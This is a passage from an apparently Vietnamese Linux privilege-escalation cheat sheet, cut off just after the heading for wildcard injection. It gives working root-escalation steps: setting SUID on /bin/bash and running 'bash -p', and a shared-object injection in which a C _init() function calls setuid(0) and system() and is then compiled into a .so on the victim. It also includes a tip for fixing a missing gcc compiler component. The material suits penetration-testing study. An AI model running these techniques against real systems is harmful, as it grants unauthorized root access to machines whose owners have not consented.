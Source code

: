 # 4. Bash SUID

Nếu trong trường hợp ta có thể `setuid` (`chmod +s`) cho `bash`, có thể làm như sau:

```console
$ chmod +s /bin/bash
$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 25 01:40 /bin/bash
$ /bin/bash -p
bash-5.12# id
uid=1000(user) gid=1003(user) euid=0(root) egid=0(root) groups=0(root),...
```

# 5. Shared object injection.

Nếu gặp 1 process nào đó chạy với quyền root, sử dụng một shared object file (.so) và có quyền ghi trong thư mục chứa .so đó, hoặc là có quyền ghi với chính file .so đó luôn, có thể thực hiện so injection.

```c 
// pwn.c 
#include <stdlib.h>
#include <unistd.h>

void _init() {
    setuid(0);
    setgid(0);
    system("some_cmd");
}
```

Gửi file đó lên victim, và compile:

```console 
$ gcc -shared -fPIC -nostartfiles -o so_file_name.so pwn.c 
```

Nếu gặp phải lỗi **"gcc: error trying to exec ‘cc1‘: execvp: No such file or directory"** thì có thể làm thế này:

```console 
$ find /usr/ -name "*cc1*" 2>/dev/null
...
...
/usr/libexec/gcc/x86_64-redhat-linux/4.8.2/cc
...
...

$ export PATH=$PATH:/usr/libexec/gcc/x86_64-redhat-linux/4.8.2/
```

# 6. Wildcard injection
